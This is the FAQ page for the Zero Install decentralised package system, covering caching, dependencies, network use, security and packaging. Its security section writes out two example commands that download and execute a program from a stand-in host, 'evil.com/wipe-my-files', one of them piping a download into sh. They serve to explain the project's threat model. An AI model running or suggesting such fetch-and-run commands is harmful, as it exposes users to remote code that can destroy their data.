

title: FAQ

# Frequently Asked Questions

## General questions

What is it?

:   Zero Install is a decentralised cross-distribution software installation system. Features include full support for shared libraries (with a SAT solver for dependency resolution), sharing between users, and integration with native platform package managers. It supports both binary and source packages, and works on Linux, OS X, Unix and Windows systems. It is fully Open Source.

How many Zero Install packages are there?

:   The [public mirror site](http://roscidus.com/0mirror/) provides a list of feeds we know about. There are currently more than 2000, although the quality varies.

What are "decentralised" installation systems, and why are they important?

:   See my [essay on OSNews](http://osnews.com/story.php/16956/Decentralised-Installation-Systems) or, if you're in a hurry, just read [the summary](http://osnews.com/story.php/16956/Decentralised-Installation-Systems/page7/).

Where does it install things to?

:   By default, everything goes under `~/.cache/0install.net/`. If you [enable system-wide sharing](../details/sharing.md), then things go under `/var/cache/0install.net/` instead. See [File locations](../details/file-locations.md).

    If you want to know where a particular program is, you can use `0install show`, e.g.

    ```shell
    $ 0install add rox-edit http://rox.sourceforge.net/2005/interfaces/Edit
    $ 0install show rox-edit
    - URI: http://rox.sourceforge.net/2005/interfaces/Edit
    Version: 2.2
    Path: /home/me/.cache/0install.net/implementations/sha256=ba3b495324192bb6c3fc1a2d9af3db2ced997fc8ce3177f08c926bebafcf16b9

    - URI: http://rox.sourceforge.net/2005/interfaces/ROX-Lib
        Version: 2.0.6
        Path: /home/me/.cache/0install.net/implementations/sha256=ccefa7b1873926de15430341b912466929fbff8116b6d0ad67c4df6d0c06243e

    - URI: http://repo.roscidus.com/python/python
        Version: 2.7.8-3
        Path: (package:deb:python2.7:2.7.8-3:x86_64)
    ```

    That said, you shouldn't ever need to know where things are cached. If you're relying on this for some reason, you're probably doing it wrong ;-)

Isn't is really hard to run applications if you always have to type URIs for them?

:   Yes. As with the web, that works but it's not the intended way to do it. Like the web, you have links to the URIs, and you use the links normally.

    For example, you can run `0install add` to let you run programs quickly from the shell, or [AddApp](http://rox.sourceforge.net/desktop/AddApp) to create graphical launchers, for example.

    You could put a launcher on the desktop background, set a keyboard shortcut, or add it to your Start menu. A 'distribution' could be nothing more than a web page listing links to high quality software for a particular audience.

How do you do integration (e.g., making a Start menu show all installed software)?

:   Since there is no concept of software being 'installed' or 'not-installed', this is not required. The menu (or other launching device) simply shows applications that the user may want to run. They will be fetched on demand.

    The menu doesn't show installed software; rather, the 'installed' software is what the user has put on the menu. This can be done e.g. using the `0desktop` command on Linux or the [desktop integration](../basics/windows.md) feature on Windows.

    The new menu entry is independent of the program data though; removing the program from the cache doesn't remove the menu item (clicking on it would simply offer to download the program again).

Isn't it wasteful for every program to bundle all its dependencies?

:   Yes, but Zero Install doesn't do that. Everything is dynamically linked, just as in a traditional Linux system: you can publish a program on your web-site that links against a library on another web-site. When updates are available for a library, they are used by all programs using that library (except for programs which are incompatible with the new library version, which will continue using the older version, without preventing other programs from upgrading).

    However, see [Export](../details/export.md) for methods to create such all-in-one bundles for distribution on CD.

Why was it called the "injector"?

:   The name came from _Dependency Injection_ - see ["The scarily-named Injector"](http://roscidus.com/desktop/node/903) for details. Now we just call it "0install".

Wouldn't it be cool if you could install software just by clicking in a web page?

:   It's a bit of a security risk. If you set up your browser to do this, then the author of any random web-site can try to trick you into clicking on some harmless-looking link. They may even be able to trigger the process without any action from you at all. Zero Install's confirmation dialogs should prevent it from actually getting installed, but:

    - Even with confirmation boxes, web pages can still annoy users by opening thousands of them. You'd need some kind of popup-blocker type technology to stop that.
    - The malicious web page gets to send arbitrary data of their choice to Zero Install. For example, they might try to exploit a buffer-overflow in GnuPG by sending malformed data. Zero Install _should_ reject it, but it's safer if we don't even allow the process to start.
    - If you do this, then your browser needs permission to run arbitrary programs, add items to your Start menu, etc. Given that the browser is one of the most at-risk components on your system, this doesn't sound like a good plan (although browsers are often configured this way at present).

    Therefore, we require you to drag the link to the installer to start the process. That way, if you weren't intending to install anything, then the process doesn't even start. As an added bonus, this lets you specify where on your desktop you want the launcher created.

    That said, if you want this anyway then there's an experimental [Firefox Extension](http://thread.gmane.org/gmane.comp.file-systems.zero-install.devel/2390) to do this.

Will Zero Install conflict with my existing package manager?

:   No. Zero Install only writes to its own cache directory. It is completely independent of your existing packaging system. If you install the same program using both systems, you'll get two copies on your system, but they will be kept separate. You can use this to test a newer version of a program without messing up your existing installation.

    Zero Install can use distribution packages to satisfy some dependencies (rather than downloading a new copy itself). This doesn't affect programs installed using the native packaging system at all. See [Distribution Integration](../details/distribution-integration.md) for details.

    !!! note
        While installation won't cause problems, actually running a program might change something (for example, a newer version may automatically upgrade a configuration file to a format that the older version can't read). This is essentially the same situation as when you downgrade a package to a previous version using your normal package manager.

How do I know you won't start charging for this service?

:   I'm not providing a service. You distribute software by hosting some files on your own web server. The only centralised URLs are the default mirror site and the default GPG key information server, both of which are optional. The core software is all LGPL or GPL.

What if something gets automatically removed from the cache while I'm up a mountain with my laptop?

:   Currently, nothing is ever automatically removed from the cache. Users can choose the purging scheme that suits them. For users with broadband, that might mean removing anything that hasn't been accessed for a year. For users with dial-up and 80Gb disks, that probably means never ever removing anything.

    You can run `0install store manage` to view the cache and remove versions of programs you don't need anymore:

    

    You can also just delete things from the `~/.cache/0install.net` directory directly, but it's easier using the GUI.

What happens if there are two programs which may not be run simultaneously for some reason?

:   Running and installing are separate. In Debian, for example, installing some software (eg, exim) may also cause it to run, but in zero install there is no install step, only the running step. So, you can 'install' any number of conflicting packages, but you can still only run one mail system at once.

Can upstream authors really be trusted to provide decent quality software?

:   Traditionally, a lot of the QA work that goes on in open source software is done by distributions (such as Debian). They take the `upstream' code from the software authors, and then provide a packaged version to their users. There are then two classes of bugs to worry about:   upstream bugs and packaging bugs. Since it's not usually clear to users which bugs are in which category, they tend to report all bugs to the packagers, who often then fix even upstream bugs in their own packages.

    The effect of this is that distribution-provided packages are often more reliable than upstream ones (since upstream don't get to hear about many of the bugs), and different distributions have fixed different bugs, with no coordination between them. With Zero Install, bugs get fixed upstream. So, the 'Debian developer' who currently fixes Gimp bugs would still do the same job, but as a 'Gimp developer' instead. Thus, the fixes would benefit everyone, not just Debian users.

    Of course, the other reason why packages may be different to the upstream versions is because upstream is slow to respond, uninterested, or known to be careless about quality. In this case, a Zero Install packager can provide a fixed version from their own site and get other people to link to that. The advantage here is that, again, everyone benefits, not just users of one distribution.

Does this replace `/etc`, `/var`, `/tmp`, etc.?

:   No. Zero Install is read-only, so you couldn't store configuration, data or temporary files in it, even if you wanted to. It replaces `/usr` and `/opt`. It's sensible to keep the other things separate, because they need to be treated differently:

    `/etc`
    : Contains system configuration. Should be backed up, and probably kept under version control too. May be mounted read-only most of the time.

    `/home`
    : User data. Must be writable, and often changes. Should be backed up regularly.

    `/var`
    : Changes quickly (contains print and mail queues, logs, etc). Must be writable. Doesn't need to be backed up, but data should persist over reboots. Zero Install cache is stored here; if lost it will just prompt you to download the programs again when you run them.

    `/tmp`
    : Changes quickly and must be writable, but need not persist over reboots (can use tmpfs rather than a physical disk).

What was the inspiration for Zero Install?

:   Several things. [CODA](http://www.coda.cs.cmu.edu/) and [wwwoffle](http://www.gedanken.demon.co.uk/wwwoffle/) for showing that caching network filesystems can still work when off-line. [The W3C](http://w3.org) for using URIs for namespaces. Not [Java Web Start](http://java.sun.com/products/javawebstart/), Konvalo, [D. J. Bernstein's slashpackage](http://cr.yp.to/slashpackage.html) or [The Open Software Description Format (OSD)](http://www.w3.org/TR/NOTE-OSD) though, because I had never heard of them when I started the project.

What's the relationship between the `0install` and `0launch` commands?
:   `0launch` is older. It was originally intended to be used just for running things, but we ended up adding a load of other options to it (e.g. `0launch --import`) and it got a bit messy.

    0install provides a cleaner, newer interface using sub-commands. `0launch URI` is equivalent to `0install run URI`. In general, using `0launch` as anything other than a short form of `0install run` is deprecated and you should use `0install` instead.

## Network questions

Isn't fetching stuff over the web really slow?

:   You have to get stuff over the web anyway the first time. The system caches everything, and you can run the software in future without needing a network connection.

Doesn't it require a fast Internet connection?

:   No more than downloading programs from the Internet normally. However, it can still save you some time, since it might only download the documentation for a package when you click on Help, for example. With traditional systems, all the extras have to get installed with the main program because users can't install anything themselves later if they find they need it.

What about people without Internet connections?

:   You can use [0export](../tools/0export.md) to create a setup.sh self-extracting installation script for distribution on CDs.

What about when resources move?

:   Everything you've already accessed at least once will continue to work. Users trying software for the first time will find that it doesn't work due to broken links. This is not new, either. The download instructions for ROX-Filer tell users that they need to get GTK from www.gtk.org and libxml from www.xmlsoft.org. If those sites change their names, the download instructions will be broken. It really doesn't make any difference. As with the regular web, people can leave redirections to the new site.

    Also, if a feed can't be fetched from its main site, Zero Install will automatically try using a [mirror service.](../tools/0mirror.md) Mirror services continue hosting feeds that are no longer available from their original sites.

    The `0install import` command lets you import the feed from the new location, and `0install store add` allows adding any archive to the cache (provided its message digest matches). Because Zero Install simply unpacks an archive when installing a package, anyone with that program cached can re-export it (e.g. using [0export](../tools/0export.md)). Because Zero Install digests are over the package archive's contents (not the archive itself), the original GPG signature is still valid (and is also exported by 0export). The digest can also be checked against the one from the mirror server.

## Security questions

How secure is this?

:   About as secure as any system which ultimately involves running software written by people you don't know who live in far away countries. However, since the downloading is automatic, there are more chances for automatic checking (eg, verifying GPG signatures, etc):

    

    To be more precise, it has all the advantages of application directories (no install step, so no chance for anything to run as root). In addition, if two users try to run the same application, they both automatically get the same cached copy, whereas without this each would have to install a separate copy to their home directory, or one user has to trust the other user not to have modified his copy, and use that.

    See the [security issues](../details/security.md) document for more information.

Doesn't Zero Install make it easier to send users malicious software?

:   Not really. True, you could email a user, telling them to run:

    ```shell
    $ 0install run http://evil.com/wipe-my-files
    ```

    But on the other hand, you could also send them an email telling them to type:

    ```shell
    $ lynx -source http://evil.com/wipe-my-files | sh -
    ```

    Both can do exactly the same amount of damage, but the second works on any system. If a user is prepared to run unknown software, they're going to do it with or without Zero Install.

    Zero Install helps with large, complicated programs with lots of dependencies, whereas your typical malicious program is only a few lines long, and doesn't benefit from it.

Sometimes, bugs are found (and fixed) in the Linux kernel that allow any user to become root. For example, one was used to compromise some of Debian's servers. Couldn't a user access some software through Zero Install that took advantage of this bug to break an un-patched machine?

:   Well, yes. But, as with the question above, they could do it just as easily without Zero Install (using wget, or just by typing the program in themselves). If your kernel is insecure, you have a problem with or without Zero Install.

## Developers

How do I provide software using Zero Install?

:   The main requirement is that the program doesn't use hard-coded paths. It should get resources from its own package relative to its own location (e.g. a shell script would use `$(dirname $0)/mydata` rather than `/usr/share/myprog/mydata`). Resources in other packages should be found using environment variables (`$GAME_DATA/level1` rather than `/usr/share/gamedata/level1`). Many programs do this already.

    Once you have suitable binary, upload an archive of it onto your web-site in the normal manner. The most widely understood formats are `.tar.gz` and `.tar.bz2`, but Zero Install can also extract from `.zip` files, and `.rpm`, `.deb` and `.autopackage` packages if the appropriate extraction program is available (`unzip`, `rpm2cpio`, etc). Often, you don't need to do anything special for Zero Install and can just use your existing binary release.

    Finally, you need to write a short XML file describing your program, the versions of it that are available, how to get them, and what libraries they require.

    See the _[Packaging Guide](../packaging/index.md)_ for details.

How do I install a library?

:   You don't install libraries directly; instead, each program which depends on the library must specify this dependency in its XML feed. In this way, every program sees a version of the library with which it is compatible. The only programs which will "see" a 0install library are those programs which specify a dependency on it.

    !!! note
        If the program _does_ specify the dependency, and you just want to make it use a particular version of the library, see the next question...

How can I run my own version of something, instead of downloading a released version?

:   Let's say you want to run a Git (developer) version of Edit. Start by cloning Edit's Git repository, as normal:

    ```shell
    $ git clone git://repo.or.cz/rox-edit.git Edit
    ```

    Aside: If you don't have Git, just use Zero Install to get it:

    ```shell
    $ 0install add git http://0install.net/2008/3rd-party/git.xml
    ```

    Now, if you try to run it directly, it will probably complain that it can't find ROX-Lib (a library it needs):

    ```shell
    $ cd Edit
    $ ./AppRun
    *** This program needs ROX-Lib2 (version 1.19.14) to run.
    ```

    The required libraries are listed in the `Edit.xml` file, and you can run that using `0install run`:

    ```shell
    $ 0install run Edit.xml
    [ edit runs ]
    ```

    Of course, you could do `0install add edit-git Edit.xml` to make a command that runs this version easily.

How can I register my own version under the original's URI?

:   The answer to the last question showed how to run a local version of a program directly, using 0install to fetch the libraries it needed. However, if you (or some other program) run Edit using the normal URI (`http://rox.sourceforge.net/2005/interfaces/Edit`), your version won't show up. To add it, use `0install add-feed`:

    ```shell
    $ cd Edit
    $ 0install add-feed Edit.xml
    Feed 'Edit.xml':
    1) Add as feed for 'http://rox.sourceforge.net/2005/interfaces/Edit'

    Enter a number, or CTRL-C to cancel [1]:

    Feed list for interface 'http://rox.sourceforge.net/2005/interfaces/Edit' is now:
    - /home/talex/rox/Edit/Edit.xml
    $ 0install select -g http://rox.sourceforge.net/2005/interfaces/Edit
    ```

    When the GUI opens, you should see your local feed listed:

    

    The new version will appear in the list of available versions, and will be selected if it's the newest one (which a fresh subversion checkout should be - the version normally ends in `-post` to indicate that it is not a released version):

    

    This is particularly useful for libraries, since they are always used by other programs rather than run directly.

Is Linux binary compatibility good enough to share binaries between distributions?

:   There are some problems in this area generally (not just with Zero Install). However, we have binaries for ROX-Filer and many other programs that work on all distributions, so it's certainly possible. Zero Install can help you create more compatible binaries by compiling against older versions of header files; see [Easy GTK binary compatibility](http://rox.sourceforge.net/desktop/node/289) for an example.
